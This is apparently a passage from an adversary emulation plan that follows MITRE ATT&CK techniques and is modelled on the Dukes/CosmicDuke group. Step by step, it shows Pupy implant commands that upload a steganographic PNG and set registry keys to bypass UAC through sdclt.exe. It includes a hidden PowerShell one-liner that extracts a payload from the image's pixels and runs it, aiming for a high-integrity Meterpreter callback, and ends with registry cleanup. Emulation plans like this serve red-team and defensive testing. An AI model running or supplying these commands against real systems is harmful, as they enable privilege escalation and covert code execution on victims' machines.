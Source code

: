 From Pupy, upload [monkey.png](/Resources/Scenario_1/monkey.png) to target:

[pupy] > `upload "/tmp/monkey.png" "C:\Users\<username>\Downloads\monkey.png"`
[pupy] > `shell`
[pupy CMD] > `powershell`

#### 3.B - Abuse Elevation Control Mechanism: Bypass User Access Control ([T1088](https://attack.mitre.org/versions/v6/techniques/T1088/) / [T1548.002](https://attack.mitre.org/techniques/T1548/002/))

[pupy (PowerShell)] >

```powershell
New-Item -Path HKCU:\Software\Classes -Name Folder -Force;
New-Item -Path HKCU:\Software\Classes\Folder -Name shell -Force;
New-Item -Path HKCU:\Software\Classes\Folder\shell -Name open -Force;
New-Item -Path HKCU:\Software\Classes\Folder\shell\open -Name command -Force;
Set-ItemProperty -Path "HKCU:\Software\Classes\Folder\shell\open\command" -Name "(Default)"
```

**Paste the following 1-liner when prompted for value:**

```powershell
powershell.exe -noni -noexit -ep bypass -window hidden -c "sal a New-Object;Add-Type -AssemblyName 'System.Drawing'; $g=a System.Drawing.Bitmap('C:\Users\username\Downloads\monkey.png');$o=a Byte[] 4480;for($i=0; $i -le 6; $i++){foreach($x in(0..639)){$p=$g.GetPixel($x,$i);$o[$i*640+$x]=([math]::Floor(($p.B-band15)*16)-bor($p.G-band15))}};$g.Dispose();IEX([System.Text.Encoding]::ASCII.GetString($o[0..3932]))"
```

[pupy (PowerShell)] >

```powershell
Set-ItemProperty -Path "HKCU:\Software\Classes\Folder\shell\open\command" -Name "DelegateExecute" -Force
```

**When prompted for value, press: [Enter]**

[pupy (PowerShell)] > `exit`
[pupy (CMD)] > `%windir%\system32\sdclt.exe`
[pupy CMD] > `powershell`

You should receive a high integrity Meterpreter callback.

#### 3.C - Modify Registry ([T1112](https://attack.mitre.org/techniques/T1112/))

[pupy (PowerShell)] > `Remove-Item -Path HKCU:\Software\Classes\Folder* -Recurse -Force`
[pupy (PowerShell)] > `exit`
[pupy (CMD)] > `exit`

### Cited Intelligence

* Open Invitation Contributors: Kaspersky, Microsoft

* CosmicDuke has occasionally embedded other malware components that are written to disk and executed.<sup> [1](https://www.f-secure.com/documents/996508/1030745/dukes_whitepaper.pdf) </sup>
